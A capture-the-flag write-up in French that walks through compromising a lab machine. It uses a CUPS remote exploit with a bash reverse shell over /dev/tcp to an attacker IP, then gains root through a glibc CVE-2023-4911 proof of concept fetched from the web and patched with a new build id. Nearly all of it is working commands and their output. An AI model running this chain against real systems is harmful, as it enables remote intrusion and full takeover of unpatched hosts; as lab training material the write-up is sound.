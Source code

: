 # WRITEUP_ORAL


# Exploitation CUPS & CVE-2023-4911

## Scan de la machine

```bash
sudo nmap 172.24.70.169
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-08 08:43 CEST
Nmap scan report for 172.24.70.169
Host is up (0.015s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
631/tcp open  ipp
Nmap done: 1 IP address (1 host up) scanned in 0.49 seconds
```

## Accès à l'interface web CUPS

Présence d'un serveur d'impression, mais je ne suis pas autorisé à accéder à l'interface web :

```bash
curl -I http://172.24.70.169:631
```

```
HTTP/1.1 403 Forbidden
Connection: close
Content-Language: fr_FR
Content-Length: 368
Content-Type: text/html; charset=utf-8
Date: Tue, 08 Oct 2024 06:44:36 GMT
Accept-Encoding: gzip, deflate, identity
Server: CUPS/2.4 IPP/2.1
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none'
```

## Est-ce que cette version de CUPS est vulnérable ?

### Sources :

- https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/
- https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8#:~:text=from%20the%20PPD.-,PoC,-Uses%20the%20ippserver
- https://github.com/RickdeJager/cupshax/
- https://github.com/IppSec/evil-cups/blob/main/evilcups.py

Différents POCs sont disponibles sur internet.

---

## Sur la machine attaquante

Je mets un port en écoute :

```bash
nc -lvp 9001
```

Puis je lance l'attaque (ici, l'adresse 172.24.8.203 est l'adresse IP de la machine attaquante, 172.24.70.169 est celle de la machine attaquée) :

```bash
pip install -r requirements.txt
python3 evilcups.py 172.24.8.203 172.24.70.169 'bash -c "bash -i >& /dev/tcp/172.24.8.203/9001 0>&1"'
```

J'attends que la machine distante détecte l'imprimante, et que la victime démarre une impression.  
Au bout de quelques minutes, j'obtiens un shell avec les droits de l'utilisateur `lp` :

```
172.24.70.169: inverse host lookup failed: Unknown host
connect to [172.24.8.203] from (UNKNOWN) [172.24.70.169] 37206
bash: impossible de régler le groupe de processus du terminal (979): Ioctl() inapproprié pour un périphérique
bash: pas de contrôle de tâche dans ce shell
lp@debian:/$
```

---

## Récupération du premier flag

```bash
lp@debian:/$ ls -l /
```

```
...
-rw-r--r--   1 root root    43  7 oct.  13:40 flag-part1.txt
-rw-r-----   1 root root    36  7 oct.  13:43 flag-part2.txt
...
```

```bash
lp@debian:/$ cat /flag-part1.txt
```

```
part 1 : fl@g{?DidYouMake4g00dlmpression?}
```

---

## Partie 2 : Escalade de privilèges

Il faut des privilèges élevés (root) pour lire le fichier contenant le deuxième flag : `/flag-part2.txt`.  
Il faut que je trouve un moyen de passer root.

### Vérification de la version de `libc`

```bash
lp@debian:/$ dpkg -l | grep libc6
```

```
ii  libc6:amd64  2.36-9  amd64  GNU C Library: Shared libraries
```

La version de `libc` est vulnérable à la **CVE-2023-4911**.

---

## Exploitation de la vulnérabilité

On télécharge le POC permettant d'exploiter la vulnérabilité, sur ma machine attaquante.  
Je l'expose via un petit serveur web python :

```bash
wget -U "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36" https://haxx.in/files/gnu-acme.py
python3 -m http.server 9000
```

### Depuis la machine victime :

```bash
temp="$(mktemp -d)"
cd $temp
wget http://172.24.8.203:9000/gnu-acme.py
```

Et on exécute :

```bash
python3 gnu-acme.py
```

```
$$$ glibc ld.so (CVE-2023-4911) exploit $$$
    -- by blasty <peter@haxx.in> --
[i] libc = /lib/x86_64-linux-gnu/libc.so.6
[i] suid target = /usr/bin/su, suid_args = ['--help']
[i] ld.so = /lib64/ld-linux-x86-64.so.2
[i] ld.so build id = 4286bd11475e673b194ee969f5f9e9759695e644
[i] __libc_start_main = 0x271c0
[i] using hax path b'\x08' at offset -8
[i] wrote patched libc.so.6
error: no target info found for build id 4286bd11475e673b194ee969f5f9e9759695e644
```

### Correction du script

On modifie légèrement le code python en ajoutant ce `build id` dans le dictionnaire `TARGETS` :

```python
TARGETS = {
    "4286bd11475e673b194ee969f5f9e9759695e644": 561,
    ...
}
```

Et on relance :

```bash
python3 gnu-acme.py
```

```
$$$ glibc ld.so (CVE-2023-4911) exploit $$$
    -- by blasty <peter@haxx.in> --
[i] libc = /lib/x86_64-linux-gnu/libc.so.6
[i] suid target = /bin/su, suid_args = ['--help']
[i] ld.so = /lib64/ld-linux-x86-64.so.2
[i] ld.so build id = aa1b0b998999c397062e1016f0c95dc0e8820117
[i] __libc_start_main = 0x29dc0
[i] using hax path b'"' at offset -20
[i] wrote patched libc.so.6
[i] using stack addr 0x7ffe10101008
............................................
```

---

## Passage root

Au bout d'un moment, plus rien ne se passe. On tape une commande :

```bash
id
```

```
uid=0(root) gid=7(lp) groups=7(lp)
```

On est bien root. On affiche le flag :

```bash
cat /flag-part2.txt
```

```
part 2 : fl@g{///100neyTun4bleS///}
```
